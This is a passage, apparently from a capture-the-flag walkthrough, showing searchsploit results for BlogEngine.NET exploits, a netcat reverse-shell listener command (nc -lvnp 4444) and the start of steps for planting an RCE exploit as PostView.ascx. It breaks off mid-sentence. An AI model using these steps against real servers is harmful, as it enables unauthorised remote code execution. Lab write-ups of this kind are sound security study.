     searchsploit blogengine
    ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
     Exploit Title                                                                                                                                                                                       |  Path
    ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
    BlogEngine 3.3 - 'syndication.axd' XML External Entity Injection                                                                                                                                     | xml/webapps/48422.txt
    BlogEngine 3.3 - XML External Entity Injection                                                                                                                                                       | windows/webapps/46106.txt
    BlogEngine 3.3.8 - 'Content' Stored XSS                                                                                                                                                              | aspx/webapps/48999.txt
    BlogEngine.NET 1.4 - 'search.aspx' Cross-Site Scripting                                                                                                                                              | asp/webapps/32874.txt
    BlogEngine.NET 1.6 - Directory Traversal / Information Disclosure                                                                                                                                    | asp/webapps/35168.txt
    BlogEngine.NET 3.3.6 - Directory Traversal / Remote Code Execution                                                                                                                                   | aspx/webapps/46353.cs
    BlogEngine.NET 3.3.6/3.3.7 - 'dirPath' Directory Traversal / Remote Code Execution                                                                                                                   | aspx/webapps/47010.py
    BlogEngine.NET 3.3.6/3.3.7 - 'path' Directory Traversal                                                                                                                                              | aspx/webapps/47035.py
    BlogEngine.NET 3.3.6/3.3.7 - 'theme Cookie' Directory Traversal / Remote Code Execution                                                                                                              | aspx/webapps/47011.py
    BlogEngine.NET 3.3.6/3.3.7 - XML External Entity Injection                                                                                                                                           | aspx/webapps/47014.py
    ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------

Look at the exploit code. Let's first run netcat on your machine on a particular port (I choose 4444)

    nc -lvnp 4444

  
now create a file named PostView.ascx and copy the exploit code in this file.

Substitute in the 
